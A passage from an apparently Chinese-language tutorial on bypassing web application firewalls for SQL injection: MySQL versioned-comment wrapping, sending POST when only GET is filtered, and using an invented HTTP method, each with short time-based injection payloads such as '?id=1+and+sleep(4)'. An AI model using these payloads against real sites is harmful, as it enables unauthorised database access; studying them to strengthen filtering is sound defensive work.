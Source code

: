 ![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwrBkpP1Zk1K6BgeMdpSvdcyU1fqEhZcViacZibybmmv61gmJhdOW4ECMw/640?wx_fmt=jpeg)

绕过 payload：

```
?id=1+and+/*!50001sleep(3)*/+and+1=1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwibYS1XVaicJG2mnib9wBeEfA7EYHGAxE2JGBEx18rLAGQf7e5uJtyoDBg/640?wx_fmt=jpeg)

### 6. 请求方式差异规则松懈性绕过

有些 WAF 同时接收 GET 方法和 POST 的方法，但只在 GET 方法中增加了过滤规则，可通过发送 POST 方法进行绕过。

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwm42yib74AfY2UPUN9GdoHwVTL6iavcF9cqF5aaupPpdOAq1miat0JXbkw/640?wx_fmt=jpeg)

正常 payload：

```
GET /xxx/?id=1+and+sleep(4) 
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwmUlSrazOZkbOInvpwV4jVVGibOhYSaReMHdbeZ1Qic0vekZyZS7Zd9JQ/640?wx_fmt=jpeg)

绕过 payload：

```
POST /xxx/ id=1+and+sleep(4)
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwHXIuPat3mGIOqcaJXfkwIm0wvXbOO0bjQE0eDAPAnS2F8HibSPHmmmA/640?wx_fmt=jpeg)

发送 POST 请求，绕过过滤规则，注入语句成功写入。

### 7. 异常 Method 绕过

有些 WAF 只检测 GET，POST 方法，可通过使用异常方法进行绕过。

增加了过滤规则的代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwibicTDzL9ia7W3EfngH0k0Hic1pumJqNHglnkd97l08g91wGqojzruJPLQ/640?wx_fmt=jpeg)

正常 payload：

```
 GET/xxx/?id=1+and+sleep(3) HTTP/1.1
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/bMyibjv83iavwRBIgsYoFc5689Xu4wqXgwILtiaz6ztEhnxBv4Q8nYGS3et8vjac4sfpFVgC21tNbTdp8aXEAWUQw/640?wx_fmt=jpeg)

绕过 payload：

```
DigApis /xxx/?id=1+and+sleep(3)HTTP/1.1
```
